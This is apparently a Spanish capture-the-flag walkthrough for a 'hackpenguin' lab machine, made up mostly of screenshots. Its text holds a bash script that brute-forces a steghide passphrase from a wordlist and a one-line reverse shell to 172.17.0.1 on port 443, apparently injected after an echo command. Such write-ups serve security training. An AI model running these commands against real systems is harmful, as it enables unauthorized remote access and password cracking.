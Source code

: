 ![](images/images-hackpenguin/Pasted%20image%2020250309180419.png)

![](images/images-hackpenguin/Pasted%20image%2020250309180525.png)

![](images/images-hackpenguin/Pasted%20image%2020250309180709.png)

![](images/images-hackpenguin/Pasted%20image%2020250309180827.png)

![](images/images-hackpenguin/Pasted%20image%2020250309180910.png)

![](images/images-hackpenguin/Pasted%20image%2020250309183320.png)

![](images/images-hackpenguin/Pasted%20image%2020250310133216.png)

Con esto el comando nos muestra su respuesta stderr, buscaremos un stdout con fuerza bruta:

``` bash
#!/bin/bash

# Verifica que se hayan pasado los argumentos correctamente
if [ "$#" -ne 2 ]; then
    echo "Uso: $0 <archivo_imagen> <archivo_wordlist>"
    exit 1
fi

image_file=$1
wordlist_file=$2

# Contar las contraseñas en el archivo wordlist
total_lines=$(wc -l < "$wordlist_file")
echo "[+] Total de contraseñas en la lista: $total_lines"

# Leer el archivo wordlist y probar cada contraseña
i=0
while IFS= read -r password; do
    i=$((i + 1))
    # Ejecutar steghide para intentar extraer con la contraseña
    result=$(steghide --extract -sf "$image_file" -p "$password" 2>&1)
    
    # Si el comando es exitoso, se imprimirá la salida y terminamos
    if [[ $? -eq 0 ]]; then
        echo "[+] ¡Contraseña correcta! : $password"
        echo "$result"  # Mostrar la salida de steghide (contenido extraído)
        break
    fi

    # Mostrar progreso cada 100 intentos
    if (( i % 100 == 0 )); then
        echo "[+] Intento $i/$total_lines contraseñas."
    fi
done < "$wordlist_file"

echo "[+] Proceso terminado."
```

![](images/images-hackpenguin/Pasted%20image%2020250310142121.png)

![](images/images-hackpenguin/Pasted%20image%2020250310152709.png)

![](images/images-hackpenguin/Pasted%20image%2020250310152735.png)

![](images/images-hackpenguin/Pasted%20image%2020250310153810.png)
![](images/images-hackpenguin/Pasted%20image%2020250310155200.png)

![](images/images-hackpenguin/Pasted%20image%2020250310155957.png)

``` bash
echo -e 'pinguino hackeable' > archivo.txt; bash -i >& /dev/tcp/172.17.0.1/443 0>&1
```

![](images/images-hackpenguin/Pasted%20image%2020250310161517.png)

![](images/images-hackpenguin/Pasted%20image%2020250310161547.png)

